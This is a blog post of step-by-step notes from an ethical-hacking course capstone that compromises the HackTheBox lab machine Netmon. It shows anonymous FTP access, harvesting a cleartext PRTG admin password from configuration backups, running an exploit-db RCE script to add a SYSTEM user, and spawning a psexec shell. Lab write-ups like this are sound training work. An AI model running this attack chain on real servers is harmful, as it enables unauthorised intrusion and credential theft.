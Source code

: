 ```yaml
---
layout:     post
title:      TCM PEH Hacking Netmon Notes
date:       2021-03-26
summary:    TheCyberMentor's Practical Ethical Hacking course mid-course capstone, hacking HackTheBox Netmon
categories: certs
thumbnail: cogs
tags:
 - certs
 - pwned
---
```

<h2 class="code-line" data-line-start=0 data-line-end=1 ><a id="HTB_Netmon_0"></a>HTB Netmon</h2>
<p class="has-line-data" data-line-start="1" data-line-end="2">Recording actions to derive method.</p>
<p class="has-line-data" data-line-start="3" data-line-end="10">nmap -T4 -A -p- 10.10.10.152<br>
Noted open port 21 ftp<br>
Noted ftp allows anonymous login<br>
Noted ftp is basically entire Windows C:<br>
Noted open port 80 http<br>
Noted port 80 PRTG Network Monitor 18.1.37<br>
Noted Windows Server 2008 R2 OS</p>
<hr>
<p class="has-line-data" data-line-start="11" data-line-end="21">Visited <a href="http://10.10.10.152:80">http://10.10.10.152:80</a><br>
Noted PRTG Network Monitor<br>
Googled PRTG Network Monitor default credentials<br>
Found PRTG knowledgebase results prtgadmin:prtgadmin<br>
Tested creds, failed<br>
Googled prtg network monitor exploits<br>
Found exploit-db RCE (Authenticated)<br>
FTP is sharing out C:<br>
Googled prtg network monitor db file location<br>
Found prtg knowledgebase results with several locations</p>
<hr>
<p class="has-line-data" data-line-start="22" data-line-end="42">ftp 10.10.10.152<br>
anonymous<br>
Enter<br>
ls<br>
cd Users<br>
ls<br>
ls -la<br>
Noted hidden directories<br>
cd “All Users”<br>
ls -la<br>
cd “Application Data”<br>
Noted Access Denied<br>
cd “Application Data\Paessler\PRTG Network Monitor”<br>
Noted this was successful!!!<br>
ls<br>
Noted PRTG Configuration files<br>
get “PRTG Configuration.dat”<br>
get “PRTG Configuration.old”<br>
get “PRTG Configuration.old.bak”<br>
bye</p>
<hr>
<p class="has-line-data" data-line-start="43" data-line-end="62">ls | grep PRTG<br>
Noted all 3 files are here<br>
cat PRTG\ Configuration.dat | grep prtgadmin<br>
Noted the default cred is here<br>
gedit PRTG\ Configuration.dat<br>
ctrl+f<br>
prtgadmin<br>
Noted that password for prtgadmin is encrypted<br>
Closed<br>
gedit PRTG\ Configuration.old<br>
ctrl+f<br>
prtgadmin<br>
Noted that password for prtgadmin is encrypted<br>
Closed<br>
gedit PRTG\ Configuration.old.bak<br>
ctrl+f<br>
prtgadmin<br>
Noted password for prtgadmin are in clear text (ends in str 2018)<br>
Copied password</p>
<hr>
<p class="has-line-data" data-line-start="63" data-line-end="78">Went back to 10.10.10.152:80<br>
Tried password, failed<br>
Tried password with 2018 replaced with 2019, success<br>
Logged into PRTG Netmon Dashboard<br>
Noted exploit-db RCE (Authenticated) requires a cookie<br>
Opened burp<br>
Started proxy and intercept<br>
Copied exploit-db payload<br>
gedit <a href="http://new.sh">new.sh</a><br>
Pasted exploit into it<br>
Saved &amp; Exit<br>
chmod +x <a href="http://new.sh">new.sh</a><br>
./new.sh <a href="http://10.10.10.152">http://10.10.10.152</a> -c “&lt;pasted cookie here&gt;”<br>
Exploit is running, trying to create new NT\System user pentest:P3nT3st on remote machine<br>
Exploit completed</p>
<hr>
<p class="has-line-data" data-line-start="79" data-line-end="84">Installed impacket(<a href="https://github.com/SecureAuthCorp/impacket">https://github.com/SecureAuthCorp/impacket</a>)<br>
<a href="http://psexec.py">psexec.py</a> <a href="mailto:pentest:%22P3nT3st%22@10.10.10.152">pentest:“P3nT3st”@10.10.10.152</a><br>
Spawned a shell!!<br>
whoami<br>
nt authority\system</p>